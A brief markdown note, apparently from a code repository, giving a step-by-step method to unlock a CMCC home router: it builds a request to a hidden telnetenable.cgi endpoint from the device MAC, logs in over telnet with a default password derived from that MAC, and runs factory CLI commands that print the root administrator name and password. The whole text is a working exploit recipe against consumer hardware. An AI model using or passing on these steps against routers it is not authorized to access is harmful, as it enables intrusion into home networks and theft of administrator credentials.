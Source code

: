 # 1. check your CMCC router MAC
	MAC = 3C1060CBB330
# 2. using http address to turn on telnet function in the router
	http:/192.168.1.1/cgi-bin/telnetenable.cgi?telnetenable=1&key=
	(the address above need to add mac to the end!)
# 3. using telnet login
	name: admin
	password: Fh@{last 6 of MAC}
	password(exmaple) Fh@CBB330
# 4. catch root user info
	load_cli factory
	show admin_name
	show admin_pwd

